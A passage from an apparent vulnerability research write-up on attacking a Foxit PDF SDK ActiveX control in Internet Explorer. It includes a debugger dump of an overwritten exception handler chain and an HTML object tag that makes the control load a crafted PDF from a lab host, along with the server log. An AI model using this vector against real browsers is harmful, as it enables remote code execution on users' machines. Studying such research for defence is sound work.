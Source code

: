 ```
0031c338: kernel32!_except_handler4+0 (75eca332)
  CRT scope  0, filter: kernel32!UnhandledExceptionFilter+69 (75e9e37e)
                func:   kernel32!UnhandledExceptionFilter+6d (75e9e382)
0031cc44: 00410041
Invalid exception stack at 00410041
```

<p class="cn" markdown="1">But how are we going to trigger these vulnerabilities?</p>

## The Vectors

<p class="cn" markdown="1">Since we can't script anything, we can't use exposed methods such as `OpenFile`. However, when inspecting the control further, we can see their is a property that we can probably set called `FilePath`.</p>

{% include image.html
            img="assets/images/ITypeInfo.png#1"
            title="Listing ActiveX properties and methods"
            caption="Listing ActiveX properties and methods"
            style="width:60%;height:60%" %}

### Microsoft Internet Explorer

<p class="cn" markdown="1">So if we host the following html file from remote, we can essentially render a pdf via the ActiveX control without scripting!</p>

```html
<object classid='clsid:F53B7748-643C-4A78-8DBC-01A4855D1A10' id='target' />
   <param name="FilePath" value="http://172.16.175.1:9090/sample.pdf" />
</object>
```

```
saturn:~$ python -m SimpleHTTPServer 9090
Serving HTTP on 0.0.0.0 port 9090 ...
172.16.175.154 - - [21/Nov/2018 09:48:51] "GET / HTTP/1.1" 200 -
172.16.175.154 - - [21/Nov/2018 09:49:28] "GET /sample.pdf HTTP/1.1" 200 -
```

<p class="cn" markdown="1">The problem with that is, if this site an untrusted (which it will be probably, unless it's from the local machine zone) then we get this ugly prompt:</p>

{% include image.html
            img="assets/images/IE-ActiveX-prompt.png#4"
            title="Prompts are bad for attackers"
            caption="Prompts are bad for attackers"
            style="width:100%;height:100%" %}

<p class="cn" markdown="1">After clicking "Allow", the page does render nicely with our crafted pdf file:</p>

{% include image.html
            img="assets/images/IE-ActiveX.png#1"
            title="Rendering PDF files in the browser via Foxit.FoxitPDFSDKProCtrl.5"
            caption="Rendering PDF files in the browser via Foxit.FoxitPDFSDKProCtrl.5"
            style="width:80%;height:80%" %}
